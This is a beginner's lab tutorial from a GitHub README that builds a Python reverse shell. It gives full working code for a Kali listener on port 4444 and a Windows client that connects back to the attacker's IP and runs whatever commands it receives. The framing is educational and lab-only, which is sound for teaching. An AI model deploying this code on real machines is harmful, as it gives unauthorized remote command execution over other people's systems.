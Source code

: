 
# Python Reverse Shell – Beginner Cybersecurity Project

This project demonstrates a **basic reverse shell in Python** between a **Windows 11 target** and a **Kali Linux attacker** over a local network. It is intended for educational use **within a safe, virtual lab environment**.

## ⚠️ Warning

**Educational Use Only** – Do not use these techniques on systems or networks without explicit authorization.

---

## Step 0: Prepare the Lab

- Kali Linux = Attacker (IP: `192.168.44.128`)
- Windows 11 = Victim (IP: `192.168.44.130`)
- Ensure both are on the same virtual network.



---

## Step 1: Create the Listener (Kali)

![Reverse Shell Setup](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/BeginnerProjects/PythonReverseShell/screenshots/step0.png)

Create a file named `listener.py` with the following content:

```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
listener.bind(("0.0.0.0", 4444))
listener.listen(1)
print("[+] Listening on port 4444...")

connection, address = listener.accept()
print(f"[+] Connection from {address}")

while True:
    command = input("Shell> ")
    connection.send(command.encode())
    result = connection.recv(1024).decode()
    print(result)
```

![Reverse Shell Setup](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/BeginnerProjects/PythonReverseShell/screenshots/step1.png)
---

## Step 2: Create the Reverse Shell (Windows 11)

Create a file named `reverse_shell.py` on Windows 11 with:

```python
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.44.128", 4444))

while True:
    command = s.recv(1024).decode()
    output = subprocess.getoutput(command)
    s.send(output.encode())
```

![Reverse Shell Setup](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/BeginnerProjects/PythonReverseShell/screenshots/step2.png)
---

## Step 3: Transfer `reverse_shell.py` to Windows

Use any method (USB, shared folder, etc.). Open it with Python on Windows.


---

## Step 4: Run the Listener

On **Kali**, start the listener:

```bash
python3 listener.py
```


---

## Step 5: Run the Reverse Shell on Windows

Double-click `reverse_shell.py` (or run via terminal if Python is installed).



---

## Step 6: Shell Access

If successful, you'll see a shell prompt in Kali. You can now send commands to the Windows machine.

![Reverse Shell Setup](https://raw.githubusercontent.com/mchyasn/cyber-Projs-beginner-to-advanced/main/BeginnerProjects/PythonReverseShell/screenshots/step3.png)
---

## What You Learned

- How reverse shells work
- Basic socket programming in Python
- How to simulate an attack in a virtual lab

---

## Tags

`#ReverseShell` `#Python` `#Cybersecurity` `#BeginnerProject` `#EthicalHacking` `#SocketProgramming`

